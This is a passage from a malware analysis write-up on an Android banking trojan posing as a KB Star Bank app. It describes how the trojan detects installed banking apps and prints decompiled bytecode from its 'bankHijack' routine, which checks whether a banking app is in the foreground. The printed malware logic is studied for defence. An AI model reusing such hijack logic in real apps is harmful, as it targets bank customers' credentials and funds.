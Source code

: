The routine `softName` uses the `PackageManager` to get installed applications and checks if Banking app are installed. It returns a concatenation of app names if they are installed.

### SoftService

First thing I saw as I opened the decompiled class was a routine named `bankHijack`! Okay then, we can easily guess that bad stuffs are performed here...
Once again it's a scheduled task, calling the routine `bankHijack`, which is unfortunately not properly decompiled.

However, with the bytecode, we can make some deductions:

> ```
>// Byte code:
>//   0: aload_0
>//   1: monitorenter
>//   2: aload_0
>//   3: invokevirtual 38	com/kbstar/kb/android/services/SoftService:getApplicationContext	()Landroid/content/Context;
>//   6: ldc 40
>//   8: invokevirtual 46	android/content/Context:getSystemService	(Ljava/lang/String;)Ljava/lang/Object;
>//   11: checkcast 48	android/app/ActivityManager
>//   14: iconst_1
>//   15: invokevirtual 52	android/app/ActivityManager:getRunningTasks	(I)Ljava/util/List;
>//   18: astore_3
>//   19: aload_3
>//   20: invokeinterface 58 1 0
>//   25: ifle +32 -> 57
>//   28: aload_3
>//   29: iconst_0
>//   30: invokeinterface 62 2 0
>//   35: checkcast 64	android/app/ActivityManager$RunningTaskInfo
>//   38: getfield 68	android/app/ActivityManager$RunningTaskInfo:topActivity	Landroid/content/ComponentName;
>//   41: invokevirtual 74	android/content/ComponentName:getPackageName	()Ljava/lang/String;
>//   44: astore_3
>//   45: iconst_0
>//   46: istore_1
>//   47: getstatic 80	com/kbstar/kb/android/star/AppContacts:BK_ARRAY_LIST	[Ljava/lang/String;
>//   50: arraylength
>//   51: istore_2
>//   52: iload_1
>//   53: iload_2
>//   54: if_icmplt +6 -> 60
>//   57: aload_0
>//   58: monitorexit
>//   59: return
>//   60: aload_3
>//   61: getstatic 80	com/kbstar/kb/android/star/AppContacts:BK_ARRAY_LIST	[Ljava/lang/String;
>//   64: iload_1
>//   65: aaload
>//   66: invokevirtual 86	java/lang/String:equals	(Ljava/lang/Object;)Z
>//   69: ifeq +100 -> 169
>//   72: aload_0
>//   73: ldc 88
>//   75: iconst_0
>//   76: invokevirtual 92	com/kbstar/kb/android/services/SoftService:getSharedPreferences	(Ljava/lang/String;I)Landroid/content/SharedPreferences;
>//   79: invokeinterface 98 1 0
>//   84: astore 4
>//   86: aload 4
>//   88: invokeinterface 103 1 0
>//   93: pop
>//   94: aload 4